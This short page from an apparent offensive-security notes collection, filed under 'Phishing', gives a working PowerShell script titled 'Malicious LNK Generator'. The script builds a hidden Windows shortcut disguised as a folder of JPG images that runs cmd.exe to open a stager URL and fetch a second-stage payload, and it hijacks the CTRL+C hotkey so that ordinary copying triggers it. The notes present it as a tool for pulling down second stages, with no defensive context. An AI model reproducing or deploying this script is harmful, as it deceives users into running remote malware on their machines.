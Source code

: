 Phishing
========

.. _malicious-lnk-generator-:

Malicious LNK Generator 
~~~~~~~~~~~~~~~~~~~~~~~~

::

   $path                      = "$([Environment]::GetFolderPath('Desktop'))\Folder-Images.lnk"
   $wshell                    = New-Object -ComObject Wscript.Shell
   $shortcut                  = $wshell.CreateShortcut($path)

   $shortcut.IconLocation     = "C:\Windows\System32\shell32.dll,4"

   $shortcut.TargetPath       = "cmd.exe"
   $shortcut.Arguments        = "/c start /b http://my-stager.com/mal.aspx"
   $shortcut.WorkingDirectory = "C:"
   $shortcut.HotKey           = "CTRL+C"
   $shortcut.Description      = "Item Type: JPG Images"

   $shortcut.WindowStyle      = 7
                              # 7 = Minimized window
                              # 3 = Maximized window
                              # 1 = Normal    window
   $shortcut.Save()

   (Get-Item $path).Attributes += 'Hidden' # Optional if we want to make the link invisible (prevent user clicks)

-  Run in powershell ise it will give you a hidden lnk file that will
   map ctrl + c to your command. 
-  Great for pulling down second stages and such 
